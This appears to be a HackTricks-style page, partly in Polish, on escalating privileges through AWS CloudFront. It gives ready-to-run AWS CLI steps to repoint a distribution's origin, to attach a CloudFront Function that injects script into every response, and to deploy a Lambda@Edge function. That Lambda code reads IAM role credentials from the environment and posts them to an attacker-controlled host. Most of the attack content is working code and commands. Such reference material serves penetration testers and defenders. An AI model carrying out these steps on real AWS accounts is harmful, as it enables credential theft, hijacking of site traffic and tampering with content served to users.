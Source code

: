 # AWS - CloudFront Privesc

{{#include ../../../../banners/hacktricks-training.md}}

## CloudFront

### `cloudfront:UpdateDistribution` & `cloudfront:GetDistributionConfig`

Atakujący, który ma uprawnienia `cloudfront:UpdateDistribution` i `cloudfront:GetDistributionConfig`, może zmodyfikować konfigurację dystrybucji CloudFront. Nie potrzebuje uprawnień do docelowego bucketu S3, choć atak jest prostszy, jeśli ten bucket ma luźną politykę umożliwiającą dostęp podmiotowi usługi `cloudfront.amazonaws.com`.

Atakujący zmienia konfigurację origin dystrybucji, aby wskazywała na inny bucket S3 lub na serwer kontrolowany przez atakującego. Najpierw pobierają aktualną konfigurację dystrybucji:
```bash
aws cloudfront get-distribution-config --id <distribution-id> | jq '.DistributionConfig' > current-config.json
```
Następnie edytują current-config.json, aby wskazać origin na nowy zasób — na przykład inny S3 bucket:
```bash
...
"Origins": {
"Quantity": 1,
"Items": [
{
"Id": "<origin-id>",
"DomainName": "<new-bucket>.s3.us-east-1.amazonaws.com",
"OriginPath": "",
"CustomHeaders": {
"Quantity": 0
},
"S3OriginConfig": {
"OriginAccessIdentity": "",
"OriginReadTimeout": 30
},
"ConnectionAttempts": 3,
"ConnectionTimeout": 10,
"OriginShield": {
"Enabled": false
},
"OriginAccessControlId": "E30N32Y4IBZ971"
}
]
},
...
```
Na koniec zastosuj zmodyfikowaną konfigurację (musisz podać aktualny ETag podczas aktualizacji):
```bash
CURRENT_ETAG=$(aws cloudfront get-distribution-config --id <distribution-id> --query 'ETag' --output text)

aws cloudfront update-distribution \
--id <distribution-id> \
--distribution-config file://current-config.json \
--if-match $CURRENT_ETAG
```

### `cloudfront:UpdateFunction`, `cloudfront:PublishFunction`, `cloudfront:GetFunction`, `cloudfront:CreateFunction` and `cloudfront:AssociateFunction`
An attacker needs the permissions cloudfront:UpdateFunction, cloudfront:PublishFunction, cloudfront:GetFunction, cloudfront:CreateFunction and cloudfront:AssociateFunction to manipulate or create CloudFront functions.

The attacker creates a malicious CloudFront Function that injects JavaScript into HTML responses:

```bash
function handler(event) {
var request = event.request;
var response = event.response;
// Create a new body with malicious JavaScript
var maliciousBody = `
<!DOCTYPE html>
<html>
<head>
<title>Compromised Page</title>
</head>
<body>
<h1>Original Content</h1>
<p>This page has been modified by CloudFront Functions</p>
<script>
// Malicious JavaScript
alert('CloudFront Function Code Injection Successful!');
</script>
</body>
</html>
`;
// Replace the body entirely
response.body = { encoding: "text", data: maliciousBody };
// Update headers
response.headers["content-type"] = { value: "text/html; charset=utf-8" };
response.headers["content-length"] = {
value: maliciousBody.length.toString(),
};
response.headers["x-cloudfront-function"] = { value: "malicious-injection" };
return response;
}
```

Commands to create, publish and attach the function:

```bash
# Utwórz złośliwą funkcję w CloudFront
aws cloudfront create-function --name malicious-function --function-config '{
"Comment": "Malicious CloudFront Function for Code Injection",
"Runtime": "cloudfront-js-1.0"
}' --function-code fileb://malicious-function.js

# Pobierz ETag funkcji na etapie DEVELOPMENT
aws cloudfront describe-function --name malicious-function --stage DEVELOPMENT --query 'ETag' --output text

# Opublikuj funkcję na etapie LIVE
aws cloudfront publish-function --name malicious-function --if-match <etag>
```

Add the function to the distribution configuration (FunctionAssociations):

```bash
"FunctionAssociations": {
"Quantity": 1,
"Items": [
{
"FunctionARN": "arn:aws:cloudfront::<account-id>:function/malicious-function",
"EventType": "viewer-response"
}
]
}
```

Finally update the distribution configuration (remember to supply the current ETag):

```bash
CURRENT_ETAG=$(aws cloudfront get-distribution-config --id <distribution-id> --query 'ETag' --output text)

aws cloudfront update-distribution --id <distribution-id> --distribution-config file://current-config.json --if-match $CURRENT_ETAG
```

### `lambda:CreateFunction`, `lambda:UpdateFunctionCode`, `lambda:PublishVersion`, `iam:PassRole` & `cloudfront:UpdateDistribution`

An attacker needs the lambda:CreateFunction, lambda:UpdateFunctionCode, lambda:PublishVersion, iam:PassRole and cloudfront:UpdateDistribution permissions to create and associate malicious Lambda@Edge functions. A role that can be assumed by the lambda.amazonaws.com and edgelambda.amazonaws.com service principals is also required.

The attacker creates a malicious Lambda@Edge function that steals the IAM role credentials:

```bash
// malicious-lambda-edge.js
exports.handler = async (event) => {
// Obtain role credentials
const credentials = {
accessKeyId: process.env.AWS_ACCESS_KEY_ID,
secretAccessKey: process.env.AWS_SECRET_ACCESS_KEY,
sessionToken: process.env.AWS_SESSION_TOKEN,
};
// Send credentials to attacker's server
try {
await fetch("https://<attacker-ip>/steal-credentials", {
method: "POST",
headers: { "Content-Type": "application/json" },
body: JSON.stringify(credentials)
});
} catch (error) {
console.error("Error sending credentials:", error);
}
if (event.Records && event.Records[0] && event.Records[0].cf) {
// Modify response headers
const response = event.Records[0].cf.response;
response.headers["x-credential-theft"] = [
{
key: "X-Credential-Theft",
value: "Successful",
},
];
return response;
}
return {
statusCode: 200,
body: JSON.stringify({ message: "Credentials stolen" })
};
};
```

```bash
# Spakuj funkcję Lambda@Edge
zip malicious-lambda-edge.zip malicious-lambda-edge.js

# Utwórz funkcję Lambda@Edge z uprzywilejowaną rolą
aws lambda create-function \
--function-name malicious-lambda-edge \
--runtime nodejs18.x \
--role <privileged-role-arn> \
--handler malicious-lambda-edge.handler \
--zip-file fileb://malicious-lambda-edge.zip \
--region <region>

# Opublikuj wersję funkcji
aws lambda publish-version --function-name malicious-lambda-edge --region <region>
```

Then the attacker updates the CloudFront distribution configuration to reference the published Lambda@Edge version:

```bash
"LambdaFunctionAssociations": {
"Quantity": 1,
"Items": [
{
"LambdaFunctionARN": "arn:aws:lambda:us-east-1:<account-id>:function:malicious-lambda-edge:1",
"EventType": "viewer-response",
"IncludeBody": false
}
]
}
```

```bash
# Zastosuj zaktualizowaną konfigurację dystrybucji (należy użyć bieżącego ETag)
CURRENT_ETAG=$(aws cloudfront get-distribution-config --id <distribution-id> --query 'ETag' --output text)

aws cloudfront update-distribution \
--id <distribution-id> \
--distribution-config file://current-config.json \
--if-match $CURRENT_ETAG

# Wywołaj funkcję, wysyłając żądanie do dystrybucji
curl -v https://<distribution-domain>.cloudfront.net/
```

{{#include ../../../../banners/hacktricks-training.md}}
